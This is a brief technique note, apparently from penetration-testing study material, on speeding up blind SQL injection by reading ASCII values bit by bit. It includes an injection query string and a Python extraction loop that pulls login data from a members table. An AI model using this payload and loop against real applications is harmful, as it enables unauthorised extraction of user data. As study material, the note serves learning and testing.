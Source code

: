 # Fast Blind SQLi

For a Blind SQL Injection, instead of each character requiring many requests to brute-force the different character options, we can instead use bitwise operations to reduce the number of requests to determine the ASCII value of the character.

```sql
select ascii(substring((select login from AT_members LIMIT 1), 1, 1));
Result: 116

select ascii(substring((select login from AT_members LIMIT 1), 1, 1)) & 1 != 0;
select ascii(substring((select login from AT_members LIMIT 1), 1, 1)) & 4 != 0;
Result: False (1) and True (4)

Updated Query String:
query_string = f"test')/**/or/**/(ascii(substring(({inj}),{i},1)))%26{2**c}%23"
The URL encoded value %26 represents the & character
```

Fast SQLi code:

```python
output = "" # If already have stuff, can start output with value and change starting i
  for i in range(1,100):
    new_character_value = 0
    for c in range(7): # Use bitwise AND operator to identify characters in blind SQLi
        query_string = f"test')/**/or/**/(ascii(substring(({inj}),{i},1)))%26{2**c}%23"
        res = searchFriends_sqli(ip, query_string)
        if res: # the c-th bit is ON
            new_character_value += (2**c)
    if new_character_value == 0:
        print("No possible characters, breaking now!")
        break
    else:
        output += chr(new_character_value)
        print(f"Success, adding {chr(new_character_value)} -- {output}")
```